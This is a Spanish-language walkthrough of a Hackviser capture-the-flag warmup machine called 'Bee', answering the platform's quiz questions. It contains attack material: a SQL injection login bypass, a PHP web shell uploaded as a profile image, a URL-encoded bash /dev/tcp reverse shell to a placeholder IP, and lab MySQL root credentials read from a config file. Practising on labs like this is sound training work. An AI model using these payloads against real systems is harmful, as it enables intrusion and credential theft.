





# Máquina Bee

#### OS: Linux
#### Tier: Warmup
#### IP de ejemplo: 172.20.6.140

## Reconocimiento
comenzamos realizando un escaneo de puertos por tcp con `nmap`:
```
sudo nmap -sS -p- --open --min-rate 5000 -vvv -Pn -n 172.20.6.140
```
```
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 63
3306/tcp open  mysql   syn-ack ttl 63
```
> P1: Which port(s) are open?

dos puertos abiertos: 80/HTTP y 3306/MySQL. 
Vamos a lanzar los scripts básicos de nmap con el argumento -sC y tratemos de detectar la versión para cada servicio con -sV 
```
nmap -sCV -p80,3306 -T4 172.20.6.140
```
```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: InnovifyAI
|_http-server-header: Apache/2.4.56 (Debian)
3306/tcp open  mysql   MySQL (unauthorized)
```
Entramos en la web del puerto 80 e investigamos un poco. 



> P2: Which domain did you add to the hosts file to login to the site?

El panel de login nos lleva a http://dashboard.innovifyai.hackviser/. Añadamos ese dominio al /etc/hosts para que nuestra máquina sepa a dónde resolverlo

```
sudo nano /etc/hosts
```
añadimos esta línea al final del todo, para que resuelva el dominio dashboard.innovifyai.hackviser a la IP 172.20.6.140:

`172.20.6.140 dashboard.innovifyai.hackviser`
guardamos los cambios con `Crtl+o Enter Ctrl+x`y recargamos la página



parece un login simple, probemos una SQL injection simple en el campo password, nos devuelve `Email or password incorrect`. Ahora probemos en el campo Email


se aplica algún pequeño filtro, antes de tirar SqlMap vamos a interceptar la petición con Caido y modificamos el input desde el proxy.



podemos poner algo tan simple como:

```
email=admin%40test.com' or 1=1-- -&password=1234
```
y damos a `Send`



> P3: With which vulnerability did you bypass the login panel?

al recargar la página vemos que hemos bypasseado el panel exitosamente.


## Initial Infiltration

> P4: What is the name and extension of the page containing user settings in the panel that you accessed by bypassing login?

explorando la página, si nos dirigimos a /settings.php podemos ver que podemos subir una imagen a modo de foto de perfil



podemos probar a subir una shell.php sencilla, con el fin de acceder a ella y lograr RCE (Remote Command Execution)

```
<?php system($_GET["w1s4"]); ?>
```
usaremos el parámetro w1s4 para ejecutar comandos. Guardamos el archivo como shell.php y lo subimos.

trataremos de acceder a él via `/uploads/shell.php?w1s4=id`

`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

> P5: What is the id of the user you get shell on the machine with file upload vulnerability?

tenemos ejecución remota de comandos, vamos a establecer una reverse shell con la típica /dev/tcp, URL encodeada para evitar problemas
```
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FTU_IP%2F443%200%3E%261%27
```
sacamos nuestra ip de la interfaz tun0, con el comando `ip a show tun0`, y lo añadimos en la parte de "TU_IP". Por último establecemos un listener con nc y damos al enter en el comando de la shell.php

```
❯ sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 172.20.6.140 58664
bash: cannot set terminal process group (457): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bee:/var/www/dashboard.innovifyai.hackviser/uploads$
```
> P6: What is the MySQL password?

listando archivos con `ls -la` vemos una posible database, `db_connect.php`
```
<?php
$servername = "localhost"; 
$username = "root"; 
$password = "Root.123!hackviser"; 
$database = "innovifyai"; 
```

ya acabamos la máquina, pues pudimos resolver todas las preguntas.
